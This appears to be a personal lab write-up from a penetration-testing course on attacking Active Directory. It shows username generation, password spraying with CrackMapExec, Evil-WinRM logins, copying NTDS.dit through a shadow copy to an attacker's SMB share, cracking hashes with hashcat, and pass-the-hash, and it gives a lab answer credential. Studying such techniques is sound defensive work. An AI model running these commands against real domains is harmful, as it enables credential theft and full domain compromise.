 # Attacking Active Directory & NTDS.dit

Here we will learn how we can extract credentials through the use of a `dictionary attack against AD accounts` and `dumping hashes` from the `NTDS.dit` file.

our target must be reachable over the network. This means it is highly likely that we will need to have a foothold established on the internal network to which the target is connected.

Here is the authentication process once a Windows system has been joined to the domain.

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Once a Windows system is joined to a domain, it will `no longer default to referencing the SAM database to validate logon requests`. That domain-joined system will now send all authentication requests to be validated by the domain controller before allowing a user to log on.

To bruteforce our way into the network, we need to know patterns orgs can utilize when creating employee usernames ->

| Username Convention                 | Practical Example for Jane Jill Doe |
| ----------------------------------- | ----------------------------------- |
| `firstinitiallastname`              | jdoe                                |
| `firstinitialmiddleinitiallastname` | jjdoe                               |
| `firstnamelastname`                 | janedoe                             |
| `firstname.lastname`                | jane.doe                            |
| `lastname.firstname`                | doe.jane                            |
| `nickname`                          | doedoehacksstuff                    |

an same goes for the email -> `jdoe`@`inlanefreight.com`

Let's say we have some employees&#x20;

* Ben Williamson
* Bob Burgerstien
* Jim Stevenson

using the tool [Username Anarchy](https://github.com/urbanadventurer/username-anarchy), we can convert a list of real names into common username formats.

```shell-session
ElFelixi0@htb[/htb]$ ./username-anarchy -i /home/ltnbob/names.txt 

ben
benwilliamson
ben.williamson
benwilli
benwill
<SNIP>
```

Once we have our list(s) prepared or discover the naming convention and some employee names, we can launch our attack against the target domain controller using a tool such as CrackMapExec.

```shell-session
crackmapexec smb 10.129.201.57 -u bwilliamson -p /usr/share/wordlists/fasttrack.txt
```

### Capturing NTDS.dit

`NT Directory Services` (`NTDS`) is the directory service used with AD to find & organize network resources. Recall that `NTDS.dit` file is stored at `%systemroot%/ntds` on the domain controllers in a [forest](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/plan/using-the-organizational-domain-forest-model). The `.dit` stands for [directory information tree](https://docs.oracle.com/cd/E19901-01/817-7607/dit.html). This is the primary database file associated with AD and stores all domain usernames, password hashes, and other critical schema information

**Connecting to a DC with Evil-WinRM**

Once we have our set of credentials we can try and connect to the DC

```shell-session
evil-winrm -i 10.129.201.57  -u bwilliamson -p 'P@55w0rd!'
```

Once connected, we can check to see what privileges `bwilliamson` has.

```shell-session
*Evil-WinRM* PS C:\> net localgroup
```

To make a copy of the NTDS.dit file, we need local admin (`Administrators group`) or Domain Admin (`Domain Admins group`) (or equivalent) rights.

**Checking User Account Privileges including Domain**

```shell-session
*Evil-WinRM* PS C:\> net user bwilliamson
<SNIP>
Local Group Memberships
Global Group memberships     *Domain Users         *Domain Admins
<SNIP>
```

This account has both Administrators and Domain Administrator rights which means we can do just about anything we want

We can use `vssadmin` to create a [Volume Shadow Copy](https://docs.microsoft.com/en-us/windows-server/storage/file-server/volume-shadow-copy-service) (`VSS`) of the C: drive because NTDS will be stored on C: as that is the default location selected at install, but it is possible to change the location.

```shell-session
*Evil-WinRM* PS C:\> vssadmin CREATE SHADOW /For=C:
```

Then to copy the file we need to create an SMB share on our attack host

We can then copy the NTDS.dit file from the volume shadow copy of C: onto another location on the drive to prepare to move NTDS.dit to our attack host.

```shell-session
*Evil-WinRM* PS C:\NTDS> cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
```

Now `cmd.exe /c move` can be used to move the file from the target DC to the share on our attack host.

```shell-session
*Evil-WinRM* PS C:\NTDS> cmd.exe /c move C:\NTDS\NTDS.dit \\10.10.15.30\CompData 
```

**Using cme to Capture NTDS.dit**

This is much more faster&#x20;

```shell-session
crackmapexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds
```

### Cracking Hashes

Now we can copy the output of the attack and put every NT hash in a txt file to launch hashcat

```shell-session
ElFelixi0@htb[/htb]$ sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt
```

`What if we are unsuccessful in cracking a hash?`

&#x20;We can still use hashes to attempt to authenticate with a system using a type of attack called `Pass-the-Hash` (`PtH`). A PtH attack takes advantage of the [NTLM authentication protocol](https://docs.microsoft.com/en-us/windows/win32/secauthn/microsoft-ntlm) to authenticate a user using a password hash. Instead of `username`:`clear-text password` as the format for login, we can instead use `username`:`password hash`

**Pass-the-Hash with Evil-WinRM Example**

```shell-session
ElFelixi0@htb[/htb]$ evil-winrm -i 10.129.201.57  -u  Administrator -H "64f12cddaa88057e06a81b54e73b949b"
```

_**On an engagement you have gone on several social media sites and found the Inlanefreight employee names: John Marston IT Director, Carol Johnson Financial Controller and Jennifer Stapleton Logistics Manager. You decide to use these names to conduct your password attacks against the target domain controller. Submit John Marston's credentials as the answer. (Format: username:password, Case-Sensitive)**_

```
./username-anarchy/username-anarchy -i listofpeaople.txt > lastusername.txt
```

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
crackmapexec smb 10.129.202.85 -u lastusername.txt -p fasttrack.txt
```

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
cjohnson:Welcome1212
```

Did not manage to finish this, will come back later ->

##
